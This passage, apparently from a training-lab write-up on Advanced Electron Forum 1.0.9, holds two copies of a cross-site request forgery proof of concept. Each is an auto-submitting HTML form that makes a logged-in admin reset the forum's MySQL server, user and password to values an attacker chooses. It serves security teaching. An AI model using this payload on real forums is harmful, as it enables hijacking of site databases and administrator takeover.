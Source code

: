 ```

change mysql db settings
note: however you will need to know or guess the database name.

<form id="DOOM" accept-charset="ISO-8859-1" action="
http://localhost/AEF(1.0.9)_Install/index.php?act=admin&adact=conpan&seadact=mysqlset"
method="post" name="mysqlsetform">
<input type="hidden" name="server" value="hyp3rlinx.altervista.org" />
<input type="hidden" name="user" value="hyp3rlinx" />
<input type="hidden" name="password" value="DESTROYED" />
<input type="hidden" name="database" value="AEF" />
<input type="hidden" name="dbprefix" value="aef_" />
<script>document.getElementById('DOOM').submit()</script>
</form>

[...]
```

![Lab - Advanced Electron Forum](./assets/testing_for_common_attacks_lab_advanced_electron_forum_1.png)

`vim ./csrf.html`:
```html
<form id="DOOM" accept-charset="ISO-8859-1" action="
https://wij0p8tlyeqrezvx1057worm8.eu-central-7.attackdefensecloudlabs.com/index.php?act=admin&adact=conpan&seadact=mysqlset"
method="post" name="mysqlsetform">
<input type="hidden" name="server" value="server.site.com" />
<input type="hidden" name="user" value="hacker" />
<input type="hidden" name="password" value="H4ck3d!" />
<input type="hidden" name="database" value="app" />
<input type="hidden" name="dbprefix" value="aef_" />
<script>document.getElementById('DOOM').submit()</script>
</form>
```

